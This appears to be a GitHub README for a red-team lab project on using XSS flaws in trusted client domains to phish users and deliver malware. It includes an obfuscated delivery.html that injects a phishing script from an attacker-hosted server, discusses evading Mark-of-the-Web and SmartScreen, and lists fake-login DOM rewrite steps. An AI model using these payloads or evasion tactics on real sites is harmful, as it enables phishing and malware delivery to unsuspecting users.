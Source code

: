 # lauraops07 XSS at its finest. "Weaponizing XSS vulnerabilities for Red Team engagements."
<img src=assets/meme1.png>

## Table of Contents
- [Introduction: The resurrection of web exploitation](#introduction-the-resurrection-of-web-exploitation)
- [Use Case](#use-case)
- [What about MotW?](#what-about-motw)
- [Lab](#lab)
- [Type I](#type-i---reflected-xss)
    - [Payload Delivery](#payload-delivery)
    - [Phishing](#phishing)
    - [Clickfix](#clickfix)
    - [HTML Smuggling](#html-smuggling)
- [Type II](#type-ii---stored-xss)
- [Type-0](#type-0---dom-based-xss)
- [Extra Miles: CRLF Injection](#extra-miles-crlf-injection)
- [Limitations](#limitations)
- [Resources](#resources)

## Introduction: The resurrection of web exploitation 
Most red team members are giving their 100% to be creative in crafting the "perfect" phishing attack completely ignoring the web exploitation aspect and its capabilities.

And no, I'm not talking about gaining initial access through RCEs by exploiting a CVE or using noisy exploits that the SOC is already aware of and has rules in place for. I'm talking about simple client side attacks like XSS, which, with a bit of effort, can save time. For example, they can eliminate the need to constantly spin up new domains or wait for a domain to "mature" before it's usable in an engagement.

To be clear: I’m not claiming to have invented something brand new. Threat actors are using similar way to fool their victims(compromising wordpress sites or web applications in general). What I’m doing is connecting the dots and approaching it in what I hope is a more thoughtful, "crafty" way.

## Use Case
During red team engagements while recon phase(passive, active), we may discover a simple XSS vulnerability in forgotten client's domain (webapp without WAF attached on it) that doesn't appear immediately useful. For example we might not be able to steal sensitive data like cookies because the application is just a basic webpage with minimal functionality. However, since the application is hosted under a legitimate client's domain, it can still be exploited as a trusted delivery mechanism to weaponize, distribute malware and phish unsuspecting victims.

## What about MotW?
MotW can be a real headache for red teamers. When a file is downloaded from an untrusted source, Windows adds metadata that marks it. Then, when you try to run it, SmartScreen can block/warn the user.

But lets think about the following scenario: You’re already inside the client’s network, you might find a local intranet app with XSS vulnerability. You could use that to deliver your payload. Since it’s coming from local intranet (Zone ID 2) , MotW doesn’t get applied, and that gives a better chance to your payload to get executed.

Another one: The client's domains (*.client.net) might belong to Zone ID 2, which gives a better change to not trigger SmartScreen while execution.

| Zone ID | Displayname | Description |
|---|---|---|
| 0 | Computer | Your computer |
| 1 | Local intranet | This zone contains all Web sites that are on your organization’s intranet. |
| 2 | Trusted sites | This zone contains Web sites that you trust not to damage your computer or data. |
| 3 | Internet | This zone contains all Web sites you haven’t placed in other zones |
| 4 | Restricted sites | This zone contains Web sites that could potentially damage your computer or data. |

[https://isc.sans.edu/diary/31732](https://isc.sans.edu/diary/31732)

## Lab
The lab contains a simple Dockerized application written in Python using Flask. Follow the commands below to build and run it.
```bash
$ cd /webapp
$ sudo bash build.sh
```

## Type I - Reflected XSS
Weaponizing refrected XSS - Non-Persistent. This is one of the most overlooked types of XSS, primarily because it requires user interaction such as tricking the victim into clicking a malicious link. However, with a bit of creativity this type of XSS can be exploited in surprisingly powerful ways.

![lab](assets/lab.png)

Before showcasing the implemented techniques certain requirements must be met for reflected XSS.
- The actor already has a web server hosting JavaScript templates, as URL length restrictions prevent passing the entire payload directly.
- The actor's web server has CORS enabled with * (wildcard) allowing anyone to fetch resources from it. For demo: [scenarios/templates/server.py](/scenarios/templates/server.py)

### Payload Delivery
Well. Even if you're not in the cybersecurity industry you might still recognize what an XSS payload looks like so it's important to obfuscate the URL or HTML.
- URL encoding x2
- HTML with embedded javascript containing the rediction URL encoded e.g. base64.
- Future work: more obfuscation techniques.

Ofcourse, there are many other ways to obfuscate it for better OPSEC.

Example (delivery.html):
```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title></title>
    <script>
        window.onload = function () {
            let blob = "aHR0cDovL2xvY2FsaG9zdDoxMzM3Lz91c2VybmFtZT1uaW5qYWtpPHNjcmlwdCBzcmM9Imh0dHA6Ly9sb2NhbGhvc3Q6ODA4MS9qcXVlcnkucGhpc2hpbmcuanMiPjwvc2NyaXB0Pg==";
            <!-- 
                http://localhost:1337/?username=ninjaki<script src="http://localhost:8081/jquery.phishing.js"></script>
            -->

            window.location.href = atob(blob);
        };
    </script>
</head>
<body>
</body>
</html>
```


### Phishing

The vulnerable application already has its CSS styles and DOM content loaded (including JavaScript and HTML). Therefore, to successfully perform the attack, some modifications must be made:
- Clear the existing CSS styles
- Clear the existing HTML/DOM content
- Change the window title based on the scenario
- Inject new HTML content along with custom CSS
- Inject the necessary JavaScript
- Replace the browser history/URI state with something that appears legitimate e.g. `/login`, `/admin`

![phishing](assets/phishing.gif)

### Clickfix

![phishing](assets/clickfix.gif)

### HTML Smuggling

![phishing](assets/smuggling.gif)

## Type II - Stored XSS

### Payload Delivery

### Phishing

### Clickfix

### HTML Smuggling

## Type-0 - DOM Based XSS
"Future work"

## Extra Miles: CRLF Injection
"Future work"

## Limitations
- Delivering the `.html` file with javascript code is not tested through "secure" mail gateways and sandbox tools in general.

## Resources
- [https://owasp.org/www-community/Types_of_Cross-Site_Scripting](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/](https://github.com/swisskyrepo/PayloadsAllTheThings/)
